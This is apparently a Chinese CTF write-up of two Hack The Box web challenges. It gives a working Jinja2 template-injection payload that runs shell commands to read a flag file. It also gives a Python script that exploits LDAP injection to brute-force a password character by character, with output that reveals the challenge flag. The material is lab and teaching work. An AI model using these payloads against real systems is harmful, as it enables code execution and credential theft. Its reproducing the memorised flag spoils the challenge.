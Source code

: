 [https://app.hackthebox.com/challenges](https://app.hackthebox.com/challenges)

>Web部分

# Templated

[https://app.hackthebox.com/challenges/templated](https://app.hackthebox.com/challenges/templated)

模板注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271459182.png)

`{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat flag.txt').read()") }}{% endif %}{% endfor %}`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271508165.png)

# Phonebook

[https://app.hackthebox.com/challenges/153](https://app.hackthebox.com/challenges/153)

主页为登录框,`964430b4cdd199af19b986eaf2193b21f32542d0/`中有一个搜索框,但是会返回`Access denied`,推测需要登录才能进行搜索

登录框在传入`\`或者`)`会返回`500`错误,推测存在sql注入,但是sqlmap跑不出来,推测不是常规的注入方式...

用SecLists里面的Fuzzing文件夹中的字典去进行测试,使用`*`作为用户名和密码时成功登录,因此可以推测其为ldap注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271621629.png)

[从HTB靶机中浅谈LDAP注入攻击](https://ca01h.top/Web_security/basic_learning/24.%E6%B5%85%E8%B0%88LDAP%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB/)

[从一次漏洞挖掘入门Ldap注入](https://xz.aliyun.com/t/5689)

登录进去之后利用搜索框进行搜索,但是没有找到flag

尝试利用ldap注入在登录框处爆破密码

```python
import requests
url="http://46.101.61.42:30525/login"
char='''QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890-=[]';,./!@#$%^&()_+}{":>?<\|'''
proxies={'http':'http://127.0.0.1:7890'}
flag="HTB{"

while True:
    for i in char:
        payload={'username':'*','password':flag+i+'*'}
        r=requests.post(url=url,data=payload,proxies=proxies,allow_redirects=False)
        if r.status_code==500:
            continue
        try:
            if r.headers['Location']=='/':
                flag+=i
                print(flag)
                if i=='}':
                    exit(0)
                break
        except KeyError:
            continue
```

```
HTB{d
HTB{d1
HTB{d1r
HTB{d1re
HTB{d1rec
HTB{d1rect
HTB{d1recto
HTB{d1rector
HTB{d1rectory
HTB{d1rectory_
HTB{d1rectory_h
HTB{d1rectory_h4
HTB{d1rectory_h4x
HTB{d1rectory_h4xx
HTB{d1rectory_h4xx0
HTB{d1rectory_h4xx0r
HTB{d1rectory_h4xx0r_
HTB{d1rectory_h4xx0r_i
HTB{d1rectory_h4xx0r_is
HTB{d1rectory_h4xx0r_is_
HTB{d1rectory_h4xx0r_is_k
HTB{d1rectory_h4xx0r_is_k0
HTB{d1rectory_h4xx0r_is_k00
HTB{d1rectory_h4xx0r_is_k00l
HTB{d1rectory_h4xx0r_is_k00l}
```
